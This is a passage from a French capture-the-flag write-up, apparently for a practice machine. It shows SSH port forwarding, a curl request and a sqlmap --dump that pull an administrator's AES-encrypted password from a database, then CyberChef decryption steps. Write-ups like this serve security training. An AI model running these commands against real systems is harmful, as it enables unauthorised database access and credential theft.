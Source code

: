 ```sh
                      array(1) {                                                                                      
                        ["aes_key"]=>                                                                                 
                        string(16) "k19D193j.<19391("                                                                 
                      }                                                                                               
                    }
```

Nous utiliserons ``sqlmap`` pour forward le port afin de pouvoir le faire sur kali, nous avons besoin de deux terminaux.

Sur le premier terminal :


```sh
ssh -N -L 1234:127.0.0.1:1234 development@10.10.10.228
```

Sur le deuxième terminal :


```sh
curl http://127.0.0.1:1234/index.php\?method\=select\&username\=administrator\&table\=passwords
```

Maintenant, exécutez sqlmap avec –-dump against

```sh
sqlmap -u http://127.0.0.1:1234/index.php\?method\=select\&username\=administrator\&table\=passwords --dump
```

```sh
Database: bread
Table: passwords
[1 entry]
+----+---------------+------------------+----------------------------------------------+
| id | account       | aes_key          | password                                     |
+----+---------------+------------------+----------------------------------------------+
| 1  | Administrator | k19D193j.<19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |
+----+---------------+------------------+----------------------------------------------+
```

On obtient un mot de passe crypté en ``base64`` avec une ``AES key``, on passe à ``CyberChef`` (notre décodeur/encodeur préfèrer (^^)

Importer ``From Base64`` et importer ``AES Decrypt``
Key en Latin and IV en hexadécimale (iv =0000000000000000).

Comme ceci :


![hack](https://media.discordapp.net/attachments/490431433559506954/834043057208164362/unknown.png)

Et nous obtenons enfin le mot de passe administrateur avec succès :
